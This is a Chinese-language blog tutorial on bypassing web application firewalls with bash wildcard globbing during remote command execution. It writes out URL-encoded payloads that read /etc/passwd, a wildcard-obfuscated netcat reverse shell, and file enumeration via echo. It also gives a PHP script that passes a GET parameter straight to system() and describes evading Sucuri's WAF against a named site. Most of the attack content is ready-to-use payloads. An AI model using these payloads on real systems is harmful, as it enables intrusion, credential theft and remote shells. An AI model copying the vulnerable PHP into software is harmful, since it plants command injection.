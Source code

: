 # bash和通配符用法

[2020-03-25]()

### [](#特殊的通配符用法 "特殊的通配符用法")特殊的通配符用法

Bash 标准通配符（也称为通配符模式）被各种命令行实用程序用于处理多个文件。并不是每个人都知道 bash 语法可以使用问号 `?`、正斜杠 `/`、数字和字母来执行系统命令。你甚至可以枚举文件并使用相同数量的字符获取其内容。  
  
举几个例子：  
可以使用以下语法来取代 ls 命令：`/???/?s`  
![](1.png)  
用这种语法，你可以基本做到你想做的任何事情。假设存在漏洞的目标位于WAF的后面，并且此 WAF 有一条规则，该规则可阻止包含 `/etc/passwd` 或 `/bin/ls` 在 GET 参数的值内或 POST 正文中的所有请求。

如果你试图发出这样的请求，`/?cmd=cat+/etc/passwd` 它将被目标 WAF 阻止，你的 IP 将被永久禁止，并被标记为 **yet another f\***in’ redteamer\*\*。但你有通配符这个秘密武器。

如果目标 WAF 不阻止查询字符串里的 `?` 和 `/`，你就可以很容易地让你的请求（url 编码）变成这样：`/?cmd=%2f???%2f??t%20%2f???%2fp??s??`  
![](2.png)  
上图所示，有 3 个错误：`/bin/cat *: Is a directory`。发生这种情况是因为 `/???/?t` 可以被全局进程解释成 `/bin/cat`，也可以解释成 `/dev/net` 或 `/etc/apt` 等。

问号通配符可以代表任何字符。因此，如果你知道一个文件名的一部分，那么你可以使用这个通配符。例如，`ls *.???` 将列出当前目录中所有长度为 3 个字符的文件扩展名。因此，你将会看到具有诸如 .gif，.jpg，.txt 之类扩展名的文件。

使用这个通配符，你可以用 `netcat` 执行一个反弹 shell。假设你需要在端口 1337（通常 `nc \-e /bin/bash 127.0.0.1 1337`）执行一个 127.0.0.1 的反弹 shell ，你可以用下面的语法来完成：  
/\?\?\?/n\? \-e /\?\?\?/b\?\?h 2130706433 1337

将 IP 地址127.0.0.1转换为长整数格式（2130706433），可以避免在 HTTP 请求中使用 . 字符。

在 kali 中，需要使用 `nc.traditional` 而不是 `nc`，没有 `-e`参数，以便 `/bin/bash` 连接后执行。有效载荷变成这样：

```
/???/?c.??????????? -e /???/b??h 2130706433 1337
```

![](3.gif)  
使用通配符执行反弹 shell  
在对我们刚才看到的两个命令进行总结：

> 标准：/bin/nc 127.0.0.1 1337  
> 绕过：/\?\?\?/n\? 2130706433 1337  
> 使用字符：/ \? n \[0-9\]

> 标准：/bin/cat /etc/passwd  
> 绕过：/\?\?\?/\?\?t /\?\?\?/\?\?ss\?\?  
> 使用字符：/ \? t s

为什么使用 `?` 而不是 `*?`由于`*`广泛用于评论语法，许多 WAF 为了避免 SQL 注入而过滤它，像 `UNION+SELECT+1,2,3/*`

使用 echo 来枚举文件和目录。该 echo 命令可以使用通配符枚举文件系统上的文件和目录。例如 `echo /*/*ss*`:  
![](4.png)

这命令可以在 RCE 漏洞中使用，以获取目标系统上的文件和目录，例如：  
![](5.png)  
但为什么使用通配符（特别是问号）可以绕过WAF？

### [](#Sucuri-WAF绕过 "Sucuri WAF绕过")Sucuri WAF绕过

![](6.png)  
测试 WAF 规则集的最佳方法是什么？创建一个有漏洞的 PHP 脚本，并尝试所有可能的技术。在上图的左上方的窗格中，是一个有漏洞的PHP脚本。

```
<?php
    echo 'ok: ';
    print_r($_GET['c']);
    system($_GET['c']);
?>
```

在左下方的窗格中，你可以看到对这个网站（test1.unicresit.it）进行远程命令执行测试。正如你所看到的，Sucuri WAF 以 **An attempted RFI/LFI was detected and blocked** 理由阻止请求。

右窗格显示了同样的请求，但却使用 `?` 作为通配符，结果是 Sucuri WAF 没有阻止这个请求，应用程序执行了放入 `c` 参数的命令。现在就可以读取 `/etc/passwd` 文件，甚至更多。

我可以读取应用程序本身的 PHP 源代码，可以使用 netcat（`/???/?c`）执行反弹 shell，或者我可以执行 curl 或 wget 来获取网络服务器的真实 IP，使我能够通过直接连接目标来绕过 WAF。

## [](#结论 "结论")结论

使用一些不常用的bash命令的技巧，还是可以绕过WAF的防护的。
